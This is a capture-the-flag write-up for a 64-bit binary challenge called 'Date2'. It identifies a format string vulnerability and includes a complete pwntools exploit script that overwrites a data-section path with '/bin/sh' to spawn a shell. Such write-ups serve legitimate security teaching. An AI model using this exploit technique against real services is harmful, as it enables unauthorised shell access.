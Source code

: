 # Date2

```
Description
No more buffer overflow this time

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So we can see nx and canary are enabled, pie is disabled and Partial Relro instead of Full Relro and again an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see that we dont have an overflow but we have an format string vulnerability. Here a good explanation: https://axcheron.github.io/exploit-101-format-strings/

We can also see in ghidra that the date_path is pointing to the .data section. So what we need to do is writing `/bin/sh` to `date_path` with the format string vuln. Pwntools have a good function `fmtstr_payload`, you can also do it manually, check the article above. 

We first need to find our offset:

![img](images/offset.jpg)

We find our offset at the 6th position. </br>
Our exploit script:
```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'critical'

# Start program
io = start()

# Payload

date_path = elf.sym['date_path']
payload = fmtstr_payload(6, {date_path : '/bin/sh\x00'})

# Send the payload
io.sendlineafter(b'date?\n', payload)

# Got Shell?
io.interactive()
```

Lets run it:

![img](images/flag.jpg)

